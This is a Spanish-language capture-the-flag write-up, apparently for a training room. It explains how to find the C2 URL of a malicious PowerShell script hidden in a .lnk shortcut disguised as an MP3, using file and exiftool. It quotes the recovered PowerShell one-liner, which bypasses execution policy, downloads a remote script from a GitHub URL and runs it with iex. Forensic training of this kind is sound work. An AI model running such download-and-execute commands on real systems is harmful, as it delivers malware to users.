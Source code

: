 ```yaml
---
title: 02. Q2
daft: "false"
tags: 
cssclasses:
  - hbox
---
```

---
Created by: [@raf181_](https://github.com/raf181)  | Date: `01-12-2024`

---
### Guía para Resolver la Pregunta 2
#### Pregunta 2:
**El script malicioso de PowerShell envía información robada a un servidor C2. ¿Cuál es la URL de este servidor C2?**

---

#### Pasos para resolver:
1. **Extraer el archivo malicioso**
    - Primero, descarga y extrae el archivo `download.zip` proporcionado en el ejercicio. Esto generará dos archivos: `song.mp3` y `somg.mp3`.
    
2. **Analizar el archivo sospechoso**
    - Usa el comando `file somg.mp3` en la terminal para confirmar que no es un archivo de audio real, sino un archivo de acceso directo (`.lnk`).
    Comando:
    ```bash
    file somg.mp3
    ```
    
3. **Usar ExifTool para extraer información**
    - Usa la herramienta `ExifTool` para analizar el archivo `somg.mp3`. Esto revelará detalles sobre los comandos incrustados.
    Comando:
    ```bash
    exiftool somg.mp3
    ```
    
4. **Identificar el comando malicioso**
    - En la salida del comando anterior, busca una línea que contenga `Command Line Arguments`. Esta línea muestra el comando de PowerShell que ejecuta el archivo `.lnk`.
    Ejemplo:
    ```
    ... 
    Relative Path : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
    Working Directory : C:\Windows\System32\WindowsPowerShell\v1.0 
    Command Line Arguments : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)" 
    Machine ID : win-base-2019
    ```
    
5. **Extraer la URL del servidor C2**
    - Localiza la URL dentro del comando `DownloadFile`. Es el enlace al servidor remoto al que se envían los datos robados.
    Ejemplo de URL:
    ```
    https://raw.githubusercontent.com....
    ```
    
6. **Responder la pregunta**
    - Copia la URL del servidor C2 (el enlace completo) y utilízala como respuesta para la pregunta.

---

#### Respuesta esperada:
La respuesta será algo como:
```
http://#########.###/####
```
Este es el dominio o dirección del servidor utilizado por el atacante para recibir la información.